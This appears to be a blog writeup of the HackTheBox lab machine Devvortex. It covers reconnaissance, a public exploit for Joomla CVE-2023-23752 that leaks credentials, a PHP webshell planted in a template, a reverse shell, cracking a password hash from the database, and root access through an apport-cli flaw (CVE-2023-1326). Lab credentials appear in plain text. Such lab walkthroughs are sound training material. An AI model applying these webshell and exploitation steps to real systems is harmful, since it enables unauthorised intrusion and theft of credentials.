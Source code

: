 ```yaml
---
title: "Devvortex - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Devvortex
![](https://kar0nx.github.io/assets/images/writeup/2565d292772abc4a2d774117cf4d36ff.png)
## Reconnaissance

IP: 10.10.11.242
## NMAP

```
nmap -T4 -p- -A 10.10.11.242
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 06:09 UTC
Nmap scan report for 10.10.11.242
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   29.46 ms 10.10.14.1
2   29.69 ms 10.10.11.242

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.47 seconds

```

Again only 2 ports open so sth must be in http.

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828081100.png)

Nothing interesting in page no interesting directories, so let's search for subdomains

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828082423.png)

And we have dev.devvortex.htb

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828082530.png)

I used feroxbuster and found /administrator directory

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828083717.png)

tried few default credential but without results.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828083902.png)

from my notes I enumerated version

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828084021.png)

navigate do /administrator/manifest/files/joomla.xml

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828084039.png)

and we got version 4.2.6, now let's search for exploits. I found promising CVE-2023-23752
https://github.com/Acceis/exploit-CVE-2023-23752
And go step by step with PoC

```
ruby exploit.rb http://dev.devvortex.htb
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828084600.png)

we have 2 users and 1 password from db

```
lewis P4ntherg0t1n5r3c0n##
```

now we can log into /administrator with above credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828084854.png)

## Gaining Access

Refering to my notes from HTB Academy I start attacking chain for joomla:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828085626.png)

navigate to System/Templates and add webshell to error.php 

```
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828085901.png)

and we have web shell 

```
curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

Now let's edit error.php to get reverse shell I user PentestMonkey

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828092241.png)

and make error to redirect to error.php like /administrator/asdfasdfa

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828092227.png)

We are in

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

earlier we gather user and password for DB so let's try mysql

```
mysql -u lewis -p
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828093838.png)

Simply enumerate DB and we can spot users

```
show databases;
use joomla
show tables;
select * from sd4fg_users
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828093854.png)

we got hash for logan account.
hashcat identify hash as module 3200 and cracked hash

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828094058.png)

logan  tequieromucho

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828094218.png)

Now we can connect via SSH to machine

## Privilege Escalation

Starting with sudo -l 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828094524.png)

That is vulnerable to CVE-2023-1326 and I found poc for this 
https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250828095307.png)

Just followed article step by step and I got root access.